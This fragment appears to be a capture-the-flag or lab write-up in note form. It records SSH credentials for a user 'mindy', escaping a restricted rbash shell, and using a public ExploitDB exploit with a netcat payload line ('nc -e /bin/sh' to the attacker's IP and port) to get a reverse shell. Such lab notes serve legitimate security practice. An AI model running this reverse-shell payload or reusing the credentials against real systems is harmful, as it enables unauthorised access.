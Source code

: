 We have mindy's SSH credentials
`mindy:P@55W0rd1!2@`

SSH'd into the system as user Mindy but it is spawning an rbash shell

Using the public exploit on [ExploitDB](https://www.exploit-db.com/exploits/50347), got a reverse shell on port 443

Select payload:
```py
payload = 'nc -e /bin/sh ' + local_ip + ' ' + port
```

![[Pasted image 20240901121000.png]]

